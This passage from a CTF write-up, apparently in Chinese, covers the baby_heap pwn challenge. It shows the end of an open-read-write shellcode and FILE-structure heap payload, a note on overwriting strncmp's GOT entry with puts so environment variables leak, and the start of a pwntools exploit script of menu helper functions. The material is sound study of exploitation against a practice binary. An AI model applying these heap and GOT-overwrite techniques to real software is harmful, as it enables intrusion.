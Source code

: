 ```py
orw += asm(shellcraft.write(1, heap_base_addr + 0x10000, 0x50))
orw += asm(shellcraft.exit(0))

payload = struct_file + struct_widedata + orw
# offset a large chunk header
edit_com(1, payload[16:])

add_com(0x568)
add_com(0x538)

show_com(2)

```

# [](#header-3)pwn baby_heap 特解

由于 getenv、setenv 在遍历所有环境变量时，调用了 strncmp 函数，在这里首先 alloc 堆获取 libc 地址后，直接通过 Secret Shop 修改 got 表中 strncmp 函数的值为 put 函数即可打印出所有环境变量.

### [](#header-3)EXP

```py
#by leeya_bug

from pwn import *
import time

SLEEP_TIME = 0.2

p = process('./debug/qwb_babyheap')
libc = ELF('./glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

def debug():
	subprocess.Popen(["qterminal", "-e", f'bash -c "pwndbg -p {p.pid}" '])
	p.interactive()
	
#------------- 基本配置 -------------


def add_com(size: int) -> None:
	p.sendlineafter(b'Enter your choice:',b'1')
	p.sendlineafter(b'size', str(size).encode())
	
def del_com(index: int) -> None:
	p.sendlineafter(b'Enter your choice:',b'2')
	p.sendlineafter(b'delete:', str(index).encode())
	
def edit_com(index: int, content: bytes) -> None:
	p.sendlineafter(b'Enter your choice:',b'3')
	p.sendlineafter(b'edit:', str(index).encode())
	p.sendlineafter(b'Input the content', content)
	
def show_com(index: int) -> bytes:
	p.sendlineafter(b'Enter your choice:',b'4')
	p.sendlineafter(b'show:', str(index).encode())
	p.recvuntil(b'The content is here \n')
	return p.recvuntil(b'Menu:')
	
def print_env(chose: int) -> bytes:
	p.sendlineafter(b'Enter your choice:',b'5')
	p.sendlineafter(b'sad !', str(chose).encode())
	return p.recvuntil(b'Menu:')
	
```